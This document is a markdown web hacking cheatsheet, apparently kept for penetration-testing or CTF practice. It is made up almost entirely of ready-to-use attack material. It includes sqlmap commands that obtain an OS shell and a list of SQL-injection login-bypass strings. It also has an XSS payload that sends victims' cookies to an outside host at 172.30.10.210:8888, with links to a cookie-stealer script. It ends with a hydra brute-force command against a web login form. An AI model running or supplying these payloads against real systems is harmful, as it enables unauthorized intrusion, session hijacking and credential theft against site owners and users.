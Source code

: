 # Web Hacking Cheatsheet

<!--
##################################################################
##################################################################
-->

## Enumeration

### Directory Scan Using Gobuster

`gobuster dir -w /usr/share/seclists/Discovery/Web-Content/name of list -u http://targetURL`

### cURL

#### GET Request

`curl http://targetURL`

#### POST Request

`curl -X POST --data randomdata http://targetURL`

#### File Upload

`curl -F ‘data=@path/to/local/file’ UPLOAD_ADDRESS`

<!--
##################################################################
##################################################################
-->

## SQLI

### Test for SQLI with SQLMAP Using Cookie

`sqlmap -u 'http://website.address?field=to-test' --cookie="PHPSESSID=73jv7pdmjsv7dsspoqtnlv66ls"`

### Use SQLMAP to Get Shell

`sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=802vjt3crnju4eg3ib0q04ge9v" --os-shell`

### Bypass Authentication with SQL Injection

`' or 1=1 --`

`a' or 1=1 --`

`" or 1=1 --`

`a" or 1=1 --`

`' or 1=1 #`

`" or 1=1 #`

`or 1=1 --`

`' or 'x'='x`

`" or "x"="x`

`') or ('x'='x`

`") or ("x"="x`

<!--
##################################################################
##################################################################
-->

## XSS

### Test for XSS

`Hello!<script>alert("Welcome");</script>`

### XSS Cookie Hijacking

_Start XSS-cookie-stealer.py \*\*\*https://raw.githubusercontent.com/lnxg33k/misc/master/XSS-cookie-stealer.py_

_\*\*https://github.com/s0wr0b1ndef/WebHacking101/blob/master/xss-reflected-steal-cookie.md_

```
<script>
alert(document.cookie);
var i=new Image;
i.src="http://172.30.10.210:8888/?"+document.cookie;
</script>
```

<!--
##################################################################
##################################################################
-->

## Useful Commands

### Brute Force Web Login

`hydra -L /home/n0m4d1k/usernames -P /usr/share/wordlists/rockyou.txt -t 16 172.30.73.80 http-post-form "/login.php:username=^USER^&password=^PASS^&action=Login:Incorrect username or password"`
